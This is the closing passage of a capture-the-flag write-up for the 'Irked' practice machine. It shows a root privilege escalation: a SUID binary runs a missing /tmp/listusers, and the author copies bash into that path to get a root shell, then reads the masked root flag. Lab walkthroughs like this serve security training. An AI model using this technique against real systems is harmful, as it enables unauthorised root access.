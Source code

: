 ```bash
sh: 1: /tmp/listusers: not found
djmardov@irked:~$ cd /tmp
djmardov@irked:/tmp$ ls
f                                                                       systemd-private-e3f9380b37a9423ba65753217653ee12-cups.service-d5MtaW          vmware-root
systemd-private-e3f9380b37a9423ba65753217653ee12-colord.service-HsiwCU  systemd-private-e3f9380b37a9423ba65753217653ee12-rtkit-daemon.service-nGVI63
```

When executing the SUID binary, I get an error, pointing out that /tmp/listusers does not exists. Since the SUID is set, the command /tmp/listusers gets executed as root. So I just copy /bin/bash into this folder, renamed it and run the command again:

```bash
djmardov@irked:/tmp$ cp /bin/bash listusers
djmardov@irked:/tmp$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-08-25 01:43 (:0)
djmardov pts/1        2021-08-25 05:23 (10.10.17.28)
root@irked:/tmp# whoami
root
```

There is the root shell, so I can get the flag and finish the box.

## Root Flag

---

```bash
root@irked:/tmp# cat /root/root.txt
8d**************************daf3
```

# Conclusions

---

The box was not as easy as I thought. There were a few new elements that I never encountered, but I was still able to solve the box. It was a good practice for the OSCP exam.